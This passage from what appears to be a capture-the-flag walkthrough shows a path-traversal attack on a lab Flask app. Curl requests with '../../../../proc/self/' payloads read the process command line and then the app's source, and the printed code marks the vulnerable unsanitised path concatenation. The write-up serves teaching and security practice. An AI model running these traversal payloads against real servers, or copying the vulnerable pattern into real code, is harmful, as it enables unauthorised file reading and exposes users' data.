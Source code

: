The `uid` is `1001`, which corresponds to our user `hudson`. So, the web application is running as `hudson`.

Now, let's find out exactly what command started this process by reading `cmdline`.

```bash
# Reading the command line arguments of the running process
❯ curl -s 'http://airplane.thm:8000/?page=../../../../proc/self/cmdline' | sed 's/\x00/ /g'
/usr/bin/python3 app.py
```

Just as we suspected! A Python script named `app.py`. The process's current working directory (`cwd`) should contain this file. Let's grab it.

```bash
# Retrieving the application's source code
❯ curl -s 'http://airplane.thm:8000/?page=../../../../proc/self/cwd/app.py'
```

```python
from flask import Flask, send_file, redirect, render_template, request
import os.path

app = Flask(__name__)


@app.route('/')
def index():
    if 'page' in request.args:
        # Here's the vulnerable line! It directly concatenates user input.
        page = 'static/' + request.args.get('page')

        if os.path.isfile(page):
            resp = send_file(page)
            resp.direct_passthrough = False

            if os.path.getsize(page) == 0:
                resp.headers["Content-Length"]=str(len(resp.get_data()))

            return resp

        else:
            return "Page not found"

    else:
        return redirect('http://airplane.thm:8000/?page=index.html', code=302)


@app.route('/airplane')
def airplane():
    return render_template('airplane.html')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)%
```
